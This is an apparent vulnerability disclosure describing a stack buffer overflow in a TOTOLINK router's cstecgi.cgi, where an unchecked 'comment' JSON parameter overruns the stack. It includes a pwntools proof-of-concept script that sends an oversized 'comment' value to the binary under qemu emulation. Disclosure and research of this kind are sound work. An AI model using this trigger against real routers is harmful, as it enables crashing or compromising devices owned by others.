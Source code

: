 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=2
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## Affected version

V4.3.0cu.7647_B20210106

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_00418f10` (at address 0x418f10) gets the JSON parameter `comment`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/1.png" alt="1.png" style="zoom:50%;" />

<img src="img/2.png" alt="2.png" style="zoom:50%;" />

## POC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setIpPortFilterRules",
    "addEffect": "0",
    "ipAddress": "192.168.2.1",
    "comment": "A"*0x200,
    "dFromPort": "8888",
    "dToPort": "9999"
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mips-static",
    "-g", "1234",
    "-L", "./lib",
    "-E", "LD_PRELOAD=./hook.so",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)

a.sendline(data.encode())

a.interactive()
```

